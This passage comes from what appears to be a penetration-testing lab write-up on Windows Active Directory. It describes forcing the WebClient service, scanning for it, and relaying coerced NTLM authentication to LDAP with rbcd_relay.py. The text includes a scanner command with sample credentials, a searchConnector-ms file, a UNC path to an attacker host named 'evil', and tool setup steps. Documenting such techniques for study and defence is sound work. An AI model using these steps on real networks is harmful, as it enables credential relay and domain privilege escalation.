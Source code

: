 The latter is required because Windows will only attempt automatic NTLM authentication if the hostname in a UNC path is considered to be part of the "intranet zone", which means it cannot contain any dots: so it cannot be a FQDN or an IP address. To circumvent this Responder can poison LLMNR requests generated by the attempted resolution of non-existing domain names, or we can simply add an ADIDNS record pointing to our attacking machine, something any domain user can do. This can be done with [PowerMad's DNS cmdlets](https://github.com/Kevin-Robertson/Powermad/wiki/Adding-ADIDNS-Records) or [krbrelayx](https://github.com/dirkjanm/krbrelayx)'s dnstool.py.

We can look for potential targets with [WebClientServiceScanner](https://github.com/Hackndo/WebclientServiceScanner), a tool that scans hosts for running WebClient services:
```text
webclientservicescanner its-piemonte/tantani:'AAAAaaaa!1'@targets.txt -dc-ip 192.168.0.100
```

![417c8cbcd49f0809403b0f855a174fc8.png](/_resources/417c8cbcd49f0809403b0f855a174fc8.png)

If we are on a host that has the service installed but not running we can force it to launch even as an unprivileged user by creating a file called [Documents.searchConnector-ms](https://www.bussink.net/webclient_activation/) with this content:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>https://192.168.16.11/0001.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://randomsite.com/</url>
    </simpleLocation>
</searchConnectorDescription>
```

The two URLs can be anything we like. Browse to this folder with Explorer and the webclient service will be up and running.

**Exploit**
Elad Shamir's [rbcd_relay.py](https://gist.github.com/3xocyte/4ea8e15332e5008581febdb502d0139c) can exploit the relay to LDAP for us, it also hosts a fake .jpg via a WebDAV server.

```text
\\evil@80\a\test.jpg
```


rbcd_relay only works in Python2 and not in default Kali installations, these are the steps I took to make it work in my lab (do it in a venv or it will break other packages):
```text
git clone <latest impacket>
sudo python2 setup.py install
sudo pip2 -m install pycryptodomex
sudo pip2 -m install pyasn1
sudo pip2 -m install ldap3
```
